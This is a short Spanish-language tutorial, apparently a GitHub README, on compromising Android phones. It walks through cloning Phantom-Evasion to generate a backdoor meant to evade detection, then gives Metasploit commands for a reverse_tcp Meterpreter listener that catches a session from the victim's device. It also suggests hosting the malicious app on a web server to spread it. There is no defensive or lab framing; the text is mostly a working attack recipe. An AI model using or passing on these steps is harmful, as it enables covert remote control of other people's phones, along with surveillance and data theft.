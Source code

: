 ## Cracking Android

<br>

<p align="center">
<img src="./Img/Logo.jpg">
</p>

<br>

En este articulo usaremos Metasploit Framework y Phantom-Evasion para acceder al dispositivo móvil.

<br>

## Creando un archivo .exe malicioso


Para crear el ejecutable usaremos **Phantom-Evasion** que es un script que sirve para crear backdoors indetectables:

```
git clone https://github.com/oddcod3/Phantom-Evasion.git

cd Phantom-Evasion

chmod u+x phantom-evasion.py

python3 phantom-evasion.py
```

<br>

<p align="center">
<img src="./Img/Phantom.png">
</p>

<br>

Seleccionaremos la opción 3, luego la opción 1 y enter, en LHOST ingresaremos la IP del atacante, en LPORT 4444 y por ultimo ingresaremos Y

Luego de esto tendremos nuestro backdoor generado ahora lo usaremos en el dispositivo victima.

Ahora iniciaremos msfconsole para poder conectarnos a la pc victima:

```
msfconsole

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST <TU IP>

set LPORT 4444

exploit
```

Como podemos observar hemos conseguido entrar al dispositivo movil. 

![Informatica](Img/sesion.png)

**NOTA:** La aplicación maliciosa podemos subirla a un servidor web y compartir desde el servidor.

**Creditos:** https://github.com/oddcod3/Phantom-Evasion